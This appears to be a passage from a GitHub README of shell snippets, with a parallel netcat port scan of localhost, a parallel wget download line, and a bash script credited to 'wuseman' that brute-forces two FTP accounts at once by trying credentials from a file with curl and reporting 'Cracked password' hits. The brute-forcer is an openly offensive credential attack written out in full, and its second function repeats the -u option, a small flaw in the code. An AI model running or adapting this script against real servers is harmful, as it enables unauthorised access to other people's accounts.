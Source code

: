 ![portscan](https://user-images.githubusercontent.com/26827453/177014274-d1fda5b4-83a5-4a7b-9bfe-17784ffb5ee7.gif)

```sh
time seq 65535 | \
	parallel \
        -k --joblog portscan \
	-j9 \
	--pipe \
	--cat \
	-j200% \
	-n9000 \
	--tagstring '\033[30;3{=$_=++$::color%8=}m' \
	'nc -vz localhost $(head -n1 {})-$(tail -n1 {})'
```

### Bruteforce two ftp accounts at once

```sh
#!/bin/bash
# Author: wuseman
# Desc: Bruteforce 2 accounts at once

okMSG() {
    echo -e "[\e[1;32m*\e[0m] $*"
}

errMSG() {
    echo -e "[\e[1;31m*\e[0m] $*"
}


1() {
    curl ftp://host:port -u $line &> /dev/null
    [[ $? = "0" ]] &&  okMSG "Cracked password for $line" || errMSG "Bad password for $line"
}

2() {
    curl ftp://host:port -u $line1 &> /dev/null -u $line1 &> /dev/null
    [[ $? = "0" ]] &&  okMSG "Cracked password for $line1" || errMSG "Bad password for $line1"
}

while 
	read line;read line1; 
   	do 
    1;2;sleep 0.1;
done < test
```

### Download files fast as ****:

```sh
time seq 1000|parallel -a 1 -j1000 wget
```
